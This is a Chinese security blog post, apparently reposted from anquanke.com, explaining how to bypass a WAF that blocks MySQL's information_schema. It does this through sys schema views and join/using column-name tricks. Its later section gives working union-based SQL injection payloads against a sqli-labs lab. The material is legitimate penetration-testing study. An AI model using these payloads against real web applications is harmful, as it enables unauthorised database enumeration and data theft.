 > 原文链接: https://www.anquanke.com//post/id/193512 


# 聊一聊bypass information_schema


                                阅读量   
                                **1440937**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">6</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t018eb4c6933a65f3f6.jpg)](https://p2.ssl.qhimg.com/t018eb4c6933a65f3f6.jpg)



## 前言

聊一聊mysql在被waf禁掉了information_schema库后还能有哪些利用思路，这个想法是前一段时间想到的，这次趁着安全客活动就在这里记录一下吧~

```
#  实验环境

windows 2008 r2
phpstudy （mysql 5.7）
某waf（原因是该waf可以设置非法访问information_schema数据库）
```



## 前置任务

进行bypass之前先了解一下mysql中的information_schma这个库是干嘛的，在SQL注入中它的作用是什么，那么有没有可以替代这个库的方法呢？

### <a class="reference-link" name="information_schema"></a>information_schema

> 简单来说，这个库在mysql中就是个信息数据库，它保存着mysql服务器所维护的所有其他数据库的信息，包括了数据库名，表名，字段名等。

​ 在注入中，infromation_schema库的作用无非就是可以获取到table_schema,table_name,column_name这些数据库内的信息。

[![](https://i.loli.net/2019/11/24/Hzf4yvMtaEhDqVU.png)](https://i.loli.net/2019/11/24/Hzf4yvMtaEhDqVU.png)

#### <a class="reference-link" name="MySQL5.7%E7%9A%84%E6%96%B0%E7%89%B9%E6%80%A7"></a>MySQL5.7的新特性

> 由于performance_schema过于发杂，所以mysql在5.7版本中新增了sys schemma，基础数据来自于performance_chema和information_schema两个库，本身数据库不存储数据。

```
*注*： 
    这里说一下，现在网络上能搜索到的文章大部分都是利用innoDB引擎绕过对information_schema的过滤，但是mysql默认是关闭InnoDB存储引擎的，所以在本文中不讨论该方法，若想了解可自行搜索，网络上有很多分析文章了。
```

**sys.schema_auto_increment_columns**

​ 开始了解这个视图之前，希望你可以想一下当你利用Mysql设计数据库时，是否会给每个表加一个自增的id（或其他名字）字段呢？如果是，那么我们发现了一个注入中在mysql默认情况下就可以替代information_schema库的方法。

> schema_auto_increment_columns，该视图的作用简单来说就是用来对表自增ID的监控。

​ 这里我通过security（sqli-labs）和fortest（我自建库）两个库来熟悉一下schema_auto_increment_columns视图的结构组成，以及特性。

```
# fortest库
    data 表存在自增id
    no_a_i_table 表不存在自增id
    test 表存在自增id
# security库
    //该库为sqli-labs自动建立
    emails,referers,uagents,users
```

[![](https://i.loli.net/2019/11/24/3RFkjJmfKrdoZzI.png)](https://i.loli.net/2019/11/24/3RFkjJmfKrdoZzI.png)

​ 可以发现，fortest库中的no_a_i_table并不在这里存在，然而其他非系统库的表信息全部在这里。根据前面介绍的schema_auto_increment_columns视图的作用，也可以发现我们可以通过该视图获取数据库的表名信息，也就是说找到了一种可以替代information_schema在注入中的作用的方法。

​ 当然了，如果你说我们就是想想通过注入获取到没有自增主键的表的数据怎么办？通过翻阅sys中的视图文档，我又发现了一个视图也许可以实现这种需求？。

**schema_table_statistics_with_buffer,x$schema_table_statistics_with_buffer**

> 查询表的统计信息，其中还包括InnoDB缓冲池统计信息，默认情况下按照增删改查操作的总表I/O延迟时间（执行时间，即也可以理解为是存在最多表I/O争用的表）降序排序，数据来源：performance_schema.table_io_waits_summary_by_table、sys.x$ps_schema_table_statistics_io、sys.x$innodb_buffer_stats_by_table

​ 通过介绍的内容我们可以很容易的发现，利用“数据来源”同样可以获取到我们需要的信息，所以说这样的话我们的绕过information_schema的思路就更广了。加下来依次看一下各个视图的结构：

```
# sys.schema_table_statistics_with_buffer
    可以看到，在上一个视图中并没有出现的表名在这里出现了。
```

[![](https://i.loli.net/2019/11/24/wQYrm1CPFhStlTs.png)](https://i.loli.net/2019/11/24/wQYrm1CPFhStlTs.png)

```
# sys.x$schema_table_statistics_with_buffer
```

[![](https://i.loli.net/2019/11/24/Sd5UPxNnZ1eXEkT.png)](https://i.loli.net/2019/11/24/Sd5UPxNnZ1eXEkT.png)

```
# 在从`数据来源`中随便选取一个视图为例（想查看视图详细结构等信息可自行测试）
# sys.x$ps_schema_table_statistics_io
# 可忽略table_name='db'，默认的并非我创建。
```

[![](https://i.loli.net/2019/11/24/a7C1You6dnHiLPQ.png)](https://i.loli.net/2019/11/24/a7C1You6dnHiLPQ.png)

**注：** 类似的视图等还有很多，若有兴趣可自行翻阅，这里仅抛砖引玉吧，记录一下自己之前的想法思路。



## Bypass information_schema

​ 上面的方法的确可以获取数据库中表名信息了，但是并没有找到类似于information_schema中COLUMNS的视图，也就是说我们并不能获取数据？

### <a class="reference-link" name="join"></a>join

> 这个思路在ctf中比较常见吧，利用join进行无列名注入，如何利用到这里就显而易见了。

**join … using(xx)**

​ 简单的记录一下payload吧。以本文开头的环境为例，这里的waf会完全过滤掉information_schema库。

> 由于开启防护后会拦截正常注入，所以图中payload可能会有些乱，我会将简单的payload整理在下面，绕过防护的部分完全可以自由发挥。

[![](https://i.loli.net/2019/11/24/7hto1Zi4eUAcKP5.png)](https://i.loli.net/2019/11/24/7hto1Zi4eUAcKP5.png)

```
# schema_auto_increment_columns

?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_auto_increment_columns where table_schema=database()--+
```

[![](https://i.loli.net/2019/11/24/K39UAREvXwHdQm8.png)](https://i.loli.net/2019/11/24/K39UAREvXwHdQm8.png)

```
# schema_table_statistics_with_buffer

?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database()--+
```

[![](https://i.loli.net/2019/11/24/ZonXMrNbFz9gEv4.png)](https://i.loli.net/2019/11/24/ZonXMrNbFz9gEv4.png)

其他的就不测试了，都是一个payload。

**获取字段名**

```
# 获取第一列的列名

?id=-1' union all select*from (select * from users as a join users b)c--+
```

[![](https://i.loli.net/2019/11/24/rcwDzoTKME3I4WX.png)](https://i.loli.net/2019/11/24/rcwDzoTKME3I4WX.png)

```
# 获取次列及后续列名

?id=-1' union all select*from (select * from users as a join users b using(id,username))c--+
```

[![](https://i.loli.net/2019/11/24/tJDQlT61kmaM7oI.png)](https://i.loli.net/2019/11/24/tJDQlT61kmaM7oI.png)



## 写在后面

​ 文章只是分享一个自己在绕过类似防护的思路，当然也是有一定限制，前提要是mysql ≥ 5.7版本。绕过的方法可能还有很多，希望各位表哥可以不吝赐教。文中可能还有哪些视图并没有全部指出，可以自行查找类似的功能点。

[![](https://i.loli.net/2019/11/24/TKtcPgDE6rGwRZF.png)](https://i.loli.net/2019/11/24/TKtcPgDE6rGwRZF.png)
